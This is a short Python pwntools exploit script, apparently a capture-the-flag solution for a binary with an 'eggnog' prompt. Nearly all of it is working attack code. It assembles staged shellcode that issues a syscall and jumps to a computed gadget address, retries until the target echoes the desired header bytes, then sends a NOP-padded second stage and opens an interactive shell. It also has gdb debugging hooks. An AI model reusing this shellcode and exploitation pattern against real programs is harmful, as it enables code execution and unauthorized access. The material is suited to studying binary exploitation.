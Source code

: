 ```
def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def pwn():
  offset_adjust = 0x110070+0x11
  buff2  = ""
  buff2 += asm('pop rcx')
  buff2 += asm('pop rcx')
  buff2 +=  asm('sub rcx,{0}'.format(hex(offset_adjust)))
  buff2 += asm('mov rax, 0x4f2c511')
  buff2 += asm('shr rax,0x8')
  buff2 += asm('add rax, rcx')
  buff2 += asm('xor rcx, rcx')
  buff2 += asm('call rax')
  buff2 += asm('ret')
  buff2 += "\x90" * (0x246 - len(buff2))

  #header ="\x4C\x87\xDA\x0F\x05\xFF\xD6"
  header = ""
  header += asm('xchg rdx, r11 ')
  header += asm('push rcx')
  header += asm('syscall')
  header += asm('call rsi')

  buff = ""
  buff += header

  if not online:
    gdb.attach(r, '''
      set follow-fork-mode child
      b *(0x555555554000 + 0xbfd)
      c
      ''')


  count=1
  while True:
    r.recvuntil("What eggs would you want to use for eggnog?")
    r.sendline(buff + "\x01"*(45 - len(buff)))

    #if count==0:
    #  r.interactive()
    #  return

    #count = 0
    r.recvuntil("Eggnog to be cooked")
    tmp_ret = r.recvline().rstrip().split(" ")[1].replace("\\","").split("x")[1:][:len(header)]
    tmp_ret = "".join([chr(int(x,16)) for x in tmp_ret])
    print(list(tmp_ret))
    print(list(header))
    if header == tmp_ret:
      print("[+] Header is right..")
      r.recvuntil("Would you like to cook this eggnog? (y/n)")
      r.sendline("y")
      r.sendline(buff2)
      r.interactive()
      return
    else :
      r.recvuntil("Would you like to cook this eggnog? (y/n)")
      r.sendline("n")

```